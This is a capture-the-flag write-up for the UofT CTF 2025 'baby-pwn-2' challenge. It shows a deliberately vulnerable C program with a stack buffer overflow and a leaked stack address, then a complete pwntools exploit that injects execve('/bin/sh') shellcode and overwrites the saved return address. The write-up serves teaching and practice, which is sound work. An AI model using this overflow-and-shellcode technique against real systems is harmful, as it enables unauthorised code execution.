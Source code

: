 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 264
tags: UofT-CTF-2025 pwn pwn/buffer-overflow pwn/ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn-2.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn-2.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the baby pwn 2 challenge!\n");
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

`checksec` output:  

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

`NX` is disabled --> implies shellcode is likely the solution.  

We also have a simple buffer overflow of 128 bytes read into the 64 byte `buffer`. And we're given a stack leak of the address of `buffer`.  

Basically, we can just write shellcode into `buffer`, and then overwrite saved RIP with the address of `buffer` that was leaked by the program. Then, the program will jump to our shellcode instructions in `buffer`, and run whatever we want!  

For the shellcode, we can create a pretty simple one to call `system("/bin/sh\x00")` (null-terminated because that's how C interprets strings!).  

Here's the exploit:  

```py
#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')
```

And we get the flag!  

    uoftctf{sh3llc0d3_1s_pr3tty_c00l}

Full script:  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn-2") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.119.16', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')

###################################
#===========END EXPLOIT===========#
###################################

p.interactive()
p.close()

# uoftctf{sh3llc0d3_1s_pr3tty_c00l}
```